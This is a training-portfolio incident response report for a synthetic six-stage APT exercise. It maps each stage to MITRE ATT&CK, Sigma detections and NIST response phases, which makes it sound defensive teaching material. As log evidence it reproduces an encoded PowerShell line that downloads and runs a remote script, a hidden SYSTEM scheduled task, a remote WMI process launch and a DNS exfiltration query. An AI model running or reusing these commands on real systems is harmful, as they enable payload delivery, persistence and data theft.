

# Elevance Health SOC Incident Response Report: Multi-Stage APT Simulation

**Document Reference:** ELEV-SOC-IR-2026-003
**Case ID:** APT-TRAINING-001
**Classification:** Public training portfolio (synthetic exercise)
**Author:** Aiswarya (Cybersecurity Intern)
**Reviewer:** AI-assisted preparation; no independent human reviewer
**Date of Report:** 2026-10-24
**Status:** Completed Investigation (Synthetic Simulation)

---

> [!IMPORTANT]
> **SIMULATION & PROVENANCE NOTICE:**
> All events, logs, indicators, and hostnames (`LAB-WIN01`, `LAB-SRV01`, `192.0.2.50`) referenced in this report are **synthetic training artifacts** generated in a local security lab environment. No real adversary activity, malware infection, network intrusion, or unauthorized data exfiltration occurred. SIEM detections were executed and verified using a custom, zero-dependency Python correlation engine adhering to Elastic Common Schema (ECS) and Sigma specifications. Containment and eradication actions outlined in this document are **defensive operational recommendations**, not actions executed against live production assets.

---

## 1. Executive Summary

During scheduled SOC training simulations on 2026-10-24, security analysts evaluated a simulated multi-stage Advanced Persistent Threat (APT) intrusion scenario spanning six distinct attack stages: Initial Access, Execution, Persistence, Privilege Escalation, Lateral Movement, and Exfiltration.

Using an offline, lightweight SIEM-compatible correlation engine ([`siem_engine.py`](../../APT-Simulation/simulation/siem_engine.py)) and a suite of seven modular Sigma detection rules, the analyst successfully ingested and evaluated 12 synthetic events (6 positive APT attack stages and 6 negative benign baseline events). The detection pipeline achieved **100% True Positive Rate** (zero false negatives) and **0% False Positive Rate** (zero benign alerts). A harmless YARA training marker was verified using the local YARA 4.5.5 engine.

This report documents the end-to-end incident handling lifecycle structured around the **NIST SP 800-61r2 Computer Security Incident Handling Guide** (Preparation, Detection & Analysis, Containment, Eradication, Recovery, and Post-Incident Activity).

---

## 2. Incident Overview & Scenario Scope

| Parameter | Specification | Details / Evidentiary Context |
|---|---|---|
| **Incident Category** | Simulated APT Campaign | Multi-stage intrusion modeling MITRE ATT&CK techniques |
| **Primary Target (Patient Zero)** | `LAB-WIN01` | Fictional Windows 11 endpoint (User: `student`) |
| **Secondary Target (Lateral)** | `LAB-SRV01` | Fictional internal application/file server |
| **External Source Address** | `192.0.2.50` | RFC 5737 TEST-NET-1 documentation range (safe IP) |
| **Simulated Attacker Infrastructure** | `exfil.training.lab` | Fictional destination domain for DNS exfiltration |
| **Telemetry Ingestion Tier** | Synthetic ECS JSONL | Normalized Windows Event Log (4688, 4672, 4624) & Sysmon (1, 22) |
| **Detection Engine** | Route D Python SIEM | Standard-library correlation & Lucene query evaluator |

---

## 3. Incident Response Lifecycle (NIST SP 800-61r2)

### 3.1 Phase 1: Preparation

Prior to incident detection, defensive controls and monitoring configurations were established:
1. **Detection Rule Baseline:** Authoring of stage-specific Sigma detection rules targeting process creation, script-block execution, scheduled task creation, sensitive privilege elevation, network logons, and DNS query anomalies.
2. **File Integrity Baseline:** Implementation of SHA-256 cryptographic hashing across all input files to guarantee forensic chain of custody.
3. **Telemetry Standards:** Alignment of log records with the Elastic Common Schema (ECS) to standardize field naming (`@timestamp`, `event.code`, `process.name`, `process.command_line`, `host.name`, `user.name`, `dns.question.name`).
4. **Threat Intelligence Readiness:** Creation of candidate import templates formatted for MISP (MISP Core JSON format) and TheHive 5 (Case & Observable API format).

---

### 3.2 Phase 2: Detection and Analysis

The correlation engine analyzed 12 synthetic events and produced 7 alert records. Six unique attack events were detected across the kill chain. Two alert records were generated for Stage 2 because both the original baseline rule ([`apt-suspicious-powershell.yml`](../../APT-Simulation/rules/sigma/apt-suspicious-powershell.yml)) and the standardized naming-convention rule ([`stage2-execution-encoded-powershell.yml`](../../APT-Simulation/rules/sigma/stage2-execution-encoded-powershell.yml)) matched the same malicious PowerShell invocation.

#### Detailed Stage-by-Stage Analysis:

#### Stage 1: Initial Access
- **Event ID:** `APT-POS-001` | **Timestamp:** 2026-10-13 09:00:15 UTC | **Host:** `LAB-WIN01`
- **Observed Activity:** `WINWORD.EXE` spawned `powershell.exe` with arguments:
  `powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -File C:\Users\student\AppData\Local\Temp\update.ps1`
- **MITRE ATT&CK Mapping:** [T1566.001: Phishing: Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/) & [T1059.001: Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)
- **Detection Logic:** Sigma rule `stage1-initial-access-office-spawn.yml` (Parent: Office binary, Child: Script interpreter).
- **Severity & Rationale:** **HIGH** — Office productivity software should never directly spawn hidden command interpreters in normal business operations.

#### Stage 2: Execution
- **Event ID:** `APT-POS-002` | **Timestamp:** 2026-10-13 09:02:30 UTC | **Host:** `LAB-WIN01`
- **Observed Activity:** `powershell.exe` invoked with base64 encoded payload:
  `powershell.exe -NoP -NonI -W Hidden -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAwAC4AMgAuADUAMAAvAGEALgBwAHMAMQAnACkA`
- **Deobfuscated Payload:**
  `IEX (New-Object Net.WebClient).DownloadString('http://192.0.2.50/a.ps1')`
- **MITRE ATT&CK Mapping:** [T1059.001: PowerShell](https://attack.mitre.org/techniques/T1059/001/) & [T1027: Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)
- **Detection Logic:** Sigma rules `apt-suspicious-powershell.yml` and `stage2-execution-encoded-powershell.yml`.
- **Severity & Rationale:** **HIGH** — Encoded command lines with hidden windows and web client downloads represent deliberate evasion and active stage-two payload staging.

#### Stage 3: Persistence
- **Event ID:** `APT-POS-003` | **Timestamp:** 2026-10-13 09:05:10 UTC | **Host:** `LAB-WIN01`
- **Observed Activity:** Execution of `schtasks.exe`:
  `schtasks.exe /create /tn WindowsUpdateCheck /tr "powershell.exe -WindowStyle Hidden -File C:\Users\Public\updater.ps1" /sc onlogon /ru SYSTEM`
- **MITRE ATT&CK Mapping:** [T1053.005: Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)
- **Detection Logic:** Sigma rule `stage3-persistence-scheduled-task.yml`.
- **Severity & Rationale:** **MEDIUM** — Task creation disguised as a legitimate Windows Update component (`WindowsUpdateCheck`) running as `SYSTEM` ensures persistent re-infection upon user logon.

#### Stage 4: Privilege Escalation
- **Event ID:** `APT-POS-004` | **Timestamp:** 2026-10-13 09:08:45 UTC | **Host:** `LAB-WIN01`
- **Observed Activity:** Windows Security Event ID 4672 recorded assignment of sensitive privileges:
  `PrivilegeList: SeDebugPrivilege, SeTcbPrivilege, SeAssignPrimaryTokenPrivilege` to the non-admin user `student` via `consent.exe`.
- **MITRE ATT&CK Mapping:** [T1078: Valid Accounts](https://attack.mitre.org/techniques/T1078/) & [T1134: Access Token Manipulation](https://attack.mitre.org/techniques/T1134/)
- **Detection Logic:** Sigma rule `stage4-privilege-escalation-sensitive-privilege.yml`.
- **Severity & Rationale:** **HIGH** — Assignment of `SeDebugPrivilege` allows process memory reading/injection (e.g., LSASS credential extraction).

#### Stage 5: Lateral Movement
- **Event ID:** `APT-POS-005` | **Timestamp:** 2026-10-13 09:12:20 UTC | **Host:** `LAB-SRV01`
- **Observed Activity:** Network Logon (Logon Type 3) on internal server `LAB-SRV01` originated from `LAB-WIN01` (`192.0.2.50`) followed by WMI execution:
  `wmic /node:LAB-SRV01 process call create "powershell.exe -c Get-ChildItem C:\SharedData\"` via `wmiprvse.exe`.
- **MITRE ATT&CK Mapping:** [T1047: Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047/) & [T1021.002: Remote Services: SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/)
- **Detection Logic:** Sigma rule `stage5-lateral-movement-remote-wmi.yml`.
- **Severity & Rationale:** **HIGH** — Lateral pivot from an untrusted endpoint to an internal server using compromised credentials and remote management interfaces.

#### Stage 6: Exfiltration
- **Event ID:** `APT-POS-006` | **Timestamp:** 2026-10-13 09:16:05 UTC | **Host:** `LAB-SRV01`
- **Observed Activity:** Sysmon Event ID 22 logged outbound DNS query:
  `dGVzdC1kYXRhLWV4ZmlsdHJhdGlvbi1zYW1wbGUtMDAx.exfil.training.lab` (Query Type: `TXT`, Length: `68`).
- **Deobfuscated Subdomain:**
  `dGVzdC1kYXRhLWV4ZmlsdHJhdGlvbi1zYW1wbGUtMDAx` decodes from base64 to: `test-data-exfiltration-sample-001`.
- **MITRE ATT&CK Mapping:** [T1071.004: Application Layer Protocol: DNS](https://attack.mitre.org/techniques/T1071/004/) & [T1048: Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
- **Detection Logic:** Sigma rule `stage6-exfiltration-dns-tunneling.yml`.
- **Severity & Rationale:** **HIGH** — Abnormal query length (>50 characters) and high Shannon entropy indicate covert data exfiltration bypassing standard perimeter firewall egress rules.

---

### 3.3 Phase 3: Containment

The following actions are **recommended containment protocols** for deployment if this intrusion were active in production:

1. **Host Network Isolation:**
   - Immediately issue EDR network containment commands for both `LAB-WIN01` and `LAB-SRV01` to sever lateral movement and C2 channels while maintaining SOC analyst console access.
2. **Domain Controller / Active Directory Remediation:**
   - Revoke active Kerberos ticket granting tickets (TGTs) and reset passwords for compromised account `student`.
   - Terminate active SMB and WMI sessions originating from `LAB-WIN01`.
3. **Network & Perimeter Containment:**
   - Add external IP `192.0.2.50` to perimeter firewall drop lists.
   - Implement temporary DNS Sinkholing on enterprise recursive DNS servers for domain `*.exfil.training.lab` to capture further exfiltration attempts and identify other infected internal hosts.

---

### 3.4 Phase 4: Eradication

To guarantee complete removal of adversary footholds:
1. **Persistence Removal:**
   - Delete scheduled task `WindowsUpdateCheck` via command:
     `schtasks.exe /delete /tn "WindowsUpdateCheck" /f`
   - Securely delete dropped secondary payloads: `C:\Users\student\AppData\Local\Temp\update.ps1` and `C:\Users\Public\updater.ps1`.
2. **Memory & Process Scrubbing:**
   - Kill orphaned PowerShell processes (`powershell.exe`) and restart WMI service host (`wmiprvse.exe`) on both endpoints.
3. **Forensic Artifact Validation:**
   - Execute YARA scan across `C:\Users\` and `C:\Windows\Temp\` using custom and threat-intel signatures to confirm zero residual staging files remain.

---

### 3.5 Phase 5: Recovery

1. **System Re-imaging & Validation:**
   - Re-image `LAB-WIN01` from a known golden baseline image to guarantee no undetected rootkits or registry modifications persist.
   - Restore `LAB-SRV01` shared directories from clean, pre-incident offline backups.
2. **Access Control Restoration:**
   - Issue new multi-factor authentication (MFA) tokens and rotate local administrator passwords via Windows LAPS (Local Administrator Password Solution).
3. **Enhanced Telemetry Verification:**
   - Re-connect endpoints to the production network in a monitored staging VLAN.
   - Verify that Sysmon and Windows Audit logging streams are actively ingesting into the SIEM before returning hosts to general production.

---

### 3.6 Phase 6: Post-Incident Activity (Lessons Learned)

1. **Detection Engineering Gaps:**
   - Prior to this exercise, parent-child process anomalies (Word spawning PowerShell) were not alerted in real time. Deploying rule `stage1-initial-access-office-spawn.yml` closes this detection window.
2. **Attack Surface Reduction:**
   - Enforce **Attack Surface Reduction (ASR)** rules via Microsoft Defender:
     *“Block all Office applications from creating child processes”* (`D4F940AB-401B-4EFC-AADC-AD5F3C50688A`).
3. **PowerShell Hardening:**
   - Enforce PowerShell **Constrained Language Mode (CLM)** via AppLocker / WDAC.
   - Enable mandatory Script Block Logging (Event ID 4104) and Transcription Logging across all endpoints.
4. **DNS Security Policy:**
   - Implement DNS Response Policy Zones (RPZ) and behavioral inspection on internal DNS resolvers to throttle or flag queries exceeding 50 characters with high alphanumeric entropy.

---

## 4. Chronological Incident Timeline & Correlation Matrix

| Timestamp (UTC) | Event ID | Host | MITRE ATT&CK ID | Correlation Finding & Technical Context |
|---|---|---|---|---|
| 09:00:15 | `APT-POS-001` | LAB-WIN01 | T1566.001 | User opens `invoice_march2026.docm`; `WINWORD.EXE` spawns hidden PowerShell script in AppData Temp. |
| 09:02:30 | `APT-POS-002` | LAB-WIN01 | T1059.001 | PowerShell executes base64 string downloading secondary payload `a.ps1` from `192.0.2.50`. |
| 09:05:10 | `APT-POS-003` | LAB-WIN01 | T1053.005 | `schtasks.exe` creates task `WindowsUpdateCheck` targeting `updater.ps1` with SYSTEM logon trigger. |
| 09:08:45 | `APT-POS-004` | LAB-WIN01 | T1078 / T1134 | Security Audit 4672: Non-admin user `student` assigned `SeDebugPrivilege` via UAC consent bypass. |
| 09:12:20 | `APT-POS-005` | LAB-SRV01 | T1047 | Network Logon 4624 Type 3 from `LAB-WIN01` to `LAB-SRV01`; WMI spawns directory enumeration. |
| 09:16:05 | `APT-POS-006` | LAB-SRV01 | T1071.004 | Sysmon 22 logs 68-byte DNS TXT query transmitting base64 encoded data to `exfil.training.lab`. |

---

## 5. Technical Limitations & Defensibility Statement

1. **Simulated Scope:** Telemetry was generated using synthetic JSONL events rather than live endpoint agent captures. The results demonstrate valid detection logic, but do not represent a physical network compromise.
2. **Local SIEM Architecture (Route D):** Due to host hardware constraints (7.67 GB total RAM, ~2.55 GB free), Security Onion (16 GB) and Wazuh All-in-One server (4–8 GB) could not be safely hosted locally. The simulation was conducted using a verified, zero-dependency Python correlation engine that accurately models ECS ingestion, Sigma evaluation, and Lucene querying.
3. **Template Status:** Threat intelligence (MISP) and case management (TheHive) artifacts are candidate templates validated offline for schema correctness, not live server database records.
